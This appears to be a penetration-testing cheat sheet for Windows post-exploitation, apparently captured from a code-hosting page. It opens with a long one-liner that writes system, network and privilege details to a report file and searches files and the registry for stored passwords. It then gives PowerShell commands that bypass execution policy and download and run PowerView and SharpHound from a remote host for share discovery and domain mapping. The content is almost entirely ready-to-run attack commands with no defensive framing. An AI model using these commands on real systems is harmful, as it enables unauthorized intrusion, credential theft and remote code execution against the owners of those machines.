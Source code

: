 ```bash
echo "--------- BASIC WINDOWS RECON ---------"  > report.txt; timeout 1; systeminfo >> report.txt; timeout 1; set >> report.txt; timeout 1; echo %username% >> report.txt; timeout 1; echo %userdomain% >> report.txt; timeout 1; echo %path% >> report.txt; timeout 1; echo %cd% >> report.txt; timeout 1; netstat -r >> report.txt; timeout 1; nbtstat >> report.txt; timeout 1; whoami /priv >> report.txt; timeout 1; wmic OS get OSArchitecture >> report.txt; timeout 1; net config Workstation  >> report.txt; timeout 1; systeminfo | findstr /B /C:"OS Name" /C:"OS Version" >> report.txt; timeout 1; hostname >> report.txt; timeout 1; net users >> report.txt; timeout 1; ipconfig /all >> report.txt; timeout 1; route print >> report.txt; timeout 1; arp -A >> report.txt; timeout 1; netstat -ano >> report.txt; timeout 1; netsh firewall show state >> report.txt; timeout 1; netsh firewall show config >> report.txt; timeout 1; schtasks /query /fo LIST /v >> report.txt; timeout 1; tasklist /SVC >> report.txt; timeout 1; net start >> report.txt; timeout 1; DRIVERQUERY >> report.txt; timeout 1; reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated >> report.txt; timeout 1; reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated >> report.txt; timeout 1; dir /s *pass* == *cred* == *vnc* == *.config* >> report.txt; timeout 1; findstr /si password *.xml *.ini *.txt >> report.txt; timeout 1; reg query HKLM /f password /t REG_SZ /s >> report.txt; timeout 1; reg query HKCU /f password /t REG_SZ /s >> report.txt; timeout 1; dir "C:\"; timeout 1; dir "C:\Program Files\" >> report.txt; timeout 1; dir "C:\Program Files (x86)\" >> report.txt; timeout 1; dir "C:\Users\" >> report.txt; timeout 1; dir "C:\Users\Public\" >> report.txt; timeout 1; fsutil fsinfo drives >> report.txt; timeout 1; dir "c:\windows\repair\" >> report.txt; timeout 1; echo "REPORT COMPLETE!"
```

File associations:
```bash
assoc
ftype powershellfile="%SystemRoot%\system32\WindowsPowerShell\v1.0\powershell.exe"
```
```
//$source_ip/$smb_share/tools_windows/EyeWitness.exe 
```

### Domain Enumeration

#### ShareFinder - Look for shares on network and check access under current user context & Log to file

```bash
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://$source_ip/tools_windows/PowerSploit/Recon/PowerView.ps1');Invoke-ShareFinder -CheckShareAccess|Out-File -FilePath sharefinder.txt"
```
### Import PowerView Module
```bash
powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('http://$source_ip/tools_windows/PowerSploit/Recon/PowerView.ps1')"
```

### Invoke-BloodHound for domain recon
```bash
powershell.exe -exec Bypass -C "IEX(New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Ingestors/SharpHound.ps1');Invoke-BloodHound"
```
